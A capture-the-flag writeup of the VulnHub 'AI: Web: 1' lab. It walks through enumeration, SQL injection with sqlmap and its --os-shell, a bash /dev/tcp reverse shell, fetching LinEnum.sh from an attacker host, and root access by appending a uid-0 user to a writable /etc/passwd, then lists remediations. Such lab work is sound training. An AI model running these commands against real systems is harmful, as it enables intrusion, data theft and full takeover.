


# AI: Web: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.13.131 (adjust for your network) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ai-web-1,353/) |

## Attack Summary

nmap → Apache port 80 → dirb finds hidden paths → Burp captures SQLi in User ID form → sqlmap --os-shell → reverse shell as www-data → writable /etc/passwd → add root user → flag.txt

## Methodology

1. Network discovery and port scan
2. Web directory enumeration (dirb)
3. SQL injection discovery and exploitation (sqlmap)
4. OS shell via sqlmap → PHP reverse shell
5. Privilege escalation via writable /etc/passwd

---

## Step 1: Network Discovery

```bash
netdiscover
nmap -A 192.168.13.131
```

Only port 80 (Apache) is open.


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.13.131/m3diNf0/
```

Finds `info.php` — reveals the document root:

```
/home/www/html/web1x443290o2sdf92213
```


Browse to `http://192.168.13.131/se3reTdir777/` — a User ID lookup form.

---

## Step 3: SQL Injection with sqlmap

Intercept the form submission in Burp Suite, save the request to `req.txt`.

List databases:

```bash
sqlmap -r req.txt --dbs --batch
```

Dump the target database:

```bash
sqlmap -r req.txt -D aiweb1 --dump-all --batch
```

Extracted credentials:

| Username | Password |
|---|---|
| t00r | FakeUserPassw0rd |
| aiweb1pwn | MyEvilPass_f908sdaf9_sadfasf0sa |
| u3er | N0tThisOneAls0 |


---

## Step 4: OS Shell via sqlmap

Use the known document root to get an OS shell:

```bash
sqlmap -r req.txt --os-shell
# When prompted for web root: /home/www/html/web1x443290o2sdf92213
```



From the OS shell, start a stable reverse shell. On attacker:

```bash
nc -lvp 1234
```

On target via os-shell:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.13.132/1234 0>&1'
```

Stabilize:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Step 5: Privilege Escalation (Writable /etc/passwd)

Run LinEnum for quick enumeration:

```bash
cd /tmp
wget http://192.168.13.132:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh | grep -i writable
```

`/etc/passwd` is world-writable.

Generate a password hash:

```bash
openssl passwd -1 -salt user3 pass123
# $1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

Append a root-level user:

```bash
echo 'raj:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash' >> /etc/passwd
su raj
# Password: pass123
```

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cat /root/flag.txt
```



---

## Lessons Learned

1. **dirb/gobuster** against all discovered sub-paths often reveals hidden admin interfaces
2. **sqlmap --os-shell** can turn SQLi directly into RCE when the web root is known
3. **Writable /etc/passwd** is a critical misconfiguration that allows trivial root access
4. **info.php** exposure leaks server internals (document root, PHP config) to attackers

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection in User ID form | Use parameterized queries (PDO/prepared statements) |
| Exposed info.php | Remove or restrict access to phpinfo() pages |
| sqlmap --os-shell access | Disable FILE privilege for DB user; restrict outbound from DB host |
| Writable /etc/passwd | `chmod 644 /etc/passwd` (owner root, read-only for others) |
